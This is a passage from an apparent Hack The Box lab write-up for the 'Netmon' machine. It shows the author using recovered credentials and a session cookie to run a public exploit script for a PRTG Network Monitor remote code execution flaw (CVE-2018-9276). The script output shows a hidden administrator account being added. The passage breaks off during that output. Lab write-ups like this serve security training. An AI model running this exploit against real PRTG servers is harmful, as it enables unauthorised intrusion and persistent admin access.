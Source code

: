 Why did it work? "`PRTG Configuration.old.bak`", as the name suggests, is an old configuration file. The idea is that the password was, perhaps, updated to keep up with the new year, considering this box's relase date is 2019. Or at least that's my theory.

Now that we have the valid credentials for the NETMON, we can move on to exploit the "PRTG Network Monitor 18.2.38 - (Authenticated) Remote Code Execution" vulnerability from the searchsploit results. A quick google search led me to [chcx's PRTG-Network-Monitor-RCE](https://github.com/chcx/PRTG-Network-Monitor-RCE).

```
┌──(thatvirdiguy㉿kali)-[~]
└─$ git clone https://github.com/chcx/PRTG-Network-Monitor-RCE.git                                                        
Cloning into 'PRTG-Network-Monitor-RCE'...
remote: Enumerating objects: 9, done.
remote: Total 9 (delta 0), reused 0 (delta 0), pack-reused 9
Receiving objects: 100% (9/9), 4.07 KiB | 1.36 MiB/s, done.

┌──(thatvirdiguy㉿kali)-[~]
└─$ cd 'PRTG-Network-Monitor-RCE'                                                                                                                                                      130 ⨯
                                                                                                                                                                                             
┌──(thatvirdiguy㉿kali)-[~/PRTG-Network-Monitor-RCE]
└─$ ls
prtg-exploit.sh  README.md
```

I needed the authenticated cookie for this one, as per the readme, which I got from the following:

![Alt text](/images/netmon/2022-02-23-hack-the-box-netmon-04.JPG "Cookie")

```
┌──(thatvirdiguy㉿kali)-[~/PRTG-Network-Monitor-RCE]
└─$ ./prtg-exploit.sh -u http://10.10.10.152 -c "_ga=GA1.4.XXXXXXX.XXXXXXXX; _gid=GA1.4.XXXXXXXXXX.XXXXXXXXXXXX; OCTOPUS1813713946=ezkzNDJGODUyLUFBQ0ItNEREMi1CNEYxLUNGM0IzQThGQTdENn0%3D; _gat=1"

[+]#########################################################################[+] 
[*] PRTG RCE script by M4LV0                                                [*] 
[+]#########################################################################[+] 
[*] https://github.com/M4LV0                                                [*] 
[+]#########################################################################[+] 
[*] Authenticated PRTG network Monitor remote code execution  CVE-2018-9276 [*] 
[+]#########################################################################[+] 

# login to the app, default creds are prtgadmin/prtgadmin. once athenticated grab your cookie and add it to the script.
# run the script to create a new user 'pentest' in the administrators group with password 'P3nT3st!'                                                                                         

[+]#########################################################################[+] 

 [*] file created 
 [*] sending notification wait....

 [*] adding a new user 'pentest' with password 'P3nT3st' 
 [*] sending notification wait....

 [*] adding a user pentest to the administrators group 
 [*] sending notification wait....

```